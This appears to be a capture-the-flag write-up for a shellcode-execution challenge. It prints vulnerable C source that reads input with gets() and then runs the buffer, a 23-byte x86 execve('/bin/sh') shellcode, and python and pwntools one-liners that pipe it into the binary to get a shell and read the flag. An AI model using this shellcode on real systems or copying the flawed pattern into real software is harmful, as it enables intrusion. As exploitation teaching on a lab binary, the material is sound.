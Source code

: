 This is the first challenge that may need some work. 
The vlun.c program read an input to a buffer `buf` then call it as a function `((void(*)())buf)()`.
To exploit this vlunerability we need to provide input as a shellcode ( a code that's already in machine language), 
because CPU will access it directly.

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 148
#define FLAGSIZE 128

void vuln(char *buf){
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  char buf[BUFSIZE];

  puts("Enter your shellcode:");
  vuln(buf);

  puts("Thanks! Executing now...");
  
  ((void (*)())buf)();


  puts("Finishing Executing Shellcode. Exiting now...");
  
  return 0;
}

```

The shellcode can be for any desire command but for this challenge it asks for shell, so we will search for a shellcode and provide
it as an input. 

This is a 23 bytes shellcode from shell-strom by Hamza Megahed [here](http://shell-storm.org/shellcode/files/shellcode-827.php).
```
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80
$ python -c 'print("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80")'|.vuln
or 
$ python -c 'import pwn; print(pwn.shellcraft.linux.sh())'|.vlun
```

We can see that the shell has been invoked but inside vlun, and we lost the interaction with it. 
So we need to keep the interaction with it, John Hammond did that using cat [here](https://www.youtube.com/watch?v=Nn0fUJuQEsk&list=PL1H1sBF1VAKUmJio8DWjY0tHLwf3bl2ku&index=6). 
```
$ (python -c 'print("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80")';cat)|./vlun
```
simply then cat the flag.txt.

